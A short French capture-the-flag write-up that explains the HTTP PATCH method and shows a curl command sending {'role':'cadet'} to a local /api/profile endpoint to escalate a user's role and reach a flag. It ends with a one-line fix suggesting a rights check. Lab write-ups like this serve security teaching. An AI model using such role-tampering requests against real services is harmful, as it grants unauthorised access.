


# 5 PATCH METHOD HTTP

## qu'est ce que c'est

Le principe de PATCH

En HTTP, les méthodes ont des rôles différents sur une ressource :

GET : lire
POST : créer
PUT : remplacer entièrement une ressource
PATCH : modifier partiellement une ressource (seulement certains champs)
DELETE : supprimer

Contrairement à PUT, qui exige l’objet complet, PATCH ne touche que les champs envoyés. C’est exactement ce qui en fait un bon candidat pour chercher des failles : il invite le développeur à écrire une logique “j’accepte un sous-ensemble de champs et je les applique”, et cette logique est souvent moins stricte que celle de création.

## comment acceder au flag

en allant dans /staff, un indice nous est laisse disant utiliser PATCH api/profile



en rentrant cette commande dans le terminal utilisant la methode PATCH au lieu de la methode GET pour modifier les permissions http dans /api/profile :

```shell
curl -X PATCH http://localhost:4942/api/profile \
-H "Content-Type: application/json" \
-H "Cookie:VOTRE_COOKIE" \
-d '{"role":"cadet"}'
```

on obtiendra et deviendra cadet sur le site, on pourra donc acceder au dashboard et obtenir le nouveau flag




## comment solutionner le probleme

Rajouter une vérification pour savoir si la personne qui effectue la commande est bien en droit (avec une clé par exemple).